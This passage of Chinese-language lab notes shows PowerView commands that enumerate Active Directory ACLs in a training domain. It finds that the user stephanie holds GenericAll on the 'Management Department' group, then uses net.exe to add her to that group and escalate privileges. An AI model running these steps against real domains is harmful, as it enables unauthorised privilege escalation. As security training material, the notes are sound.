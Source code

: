 #### 2. 轉換 SID 為可讀名稱
可以用 `Convert-SidToName` 來 轉換為可讀的名稱
```
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```
> 表示 `RAS and IAS Servers` group 擁有對 stephanie 的 讀取權限

根據 PowerView，SecurityIdentifier 屬性中的 SID 屬於 [RAS and IAS Servers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#ras-and-ias-servers) 的預設 AD 群組。

#### 3. 尋找擁有 GenericAll 權限的帳號 (最高權限)
使用 PowerView 查詢 具有最高權限（GenericAll）的帳號
```
PS C:\Tools> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll

PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```
>以下對象擁有 GenericAll 權限：\
`S-1-5-21-...-512` → Domain Admins\
`S-1-5-21-...-1104` → stephanie\
`S-1-5-32-548` → Account Operators\
`S-1-5-18` → Local System\
`S-1-5-21-...-519` → Enterprise Admins
>> stephanie 也有 GenericAll 權限 ?!\
>> ![image](https://hackmd.io/_uploads/HJAW7S2jkx.png)

#### 4. 嘗試提權
當我們觀察 Management Department 時，只發現 `jen` 是唯一的成員\
利用 GenericAll 權限，透過 net.exe 將 stephanie 加入 Management Department 群組，取得更高權限
```
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```
驗證 stephanie 是否成功加入
```
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```
> 成功將 stephanie 加入 Management Department
